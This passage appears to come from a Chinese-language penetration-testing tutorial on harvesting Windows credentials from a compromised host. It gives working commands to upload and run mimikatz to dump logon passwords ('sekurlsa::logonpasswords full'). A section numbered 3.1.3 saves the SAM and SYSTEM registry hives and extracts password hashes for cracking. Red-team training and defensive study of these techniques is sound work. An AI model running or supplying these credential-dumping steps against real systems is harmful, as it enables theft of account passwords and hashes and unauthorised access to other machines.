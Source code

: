 
直接上传mimikatz至目标主机并使用。

```
upload /usr/share/windows-resources/mimikatz/x64 .
shell
chcp 65001
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full"
```

![image-20230109001028937](../../images//image-20230109001028937.png)



3.1.3 通过注册表获取hash后进行解密

在目标机器上获取到两个文件，然后使用mimikatz获取hash后，再进行解密.

先把当前系统注册表 SAM、SYSTEM 获取：

```
reg save HKLM\SYSTEM Sys.hiv
reg save HKLM\SAM Sam.hiv
mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv"
```
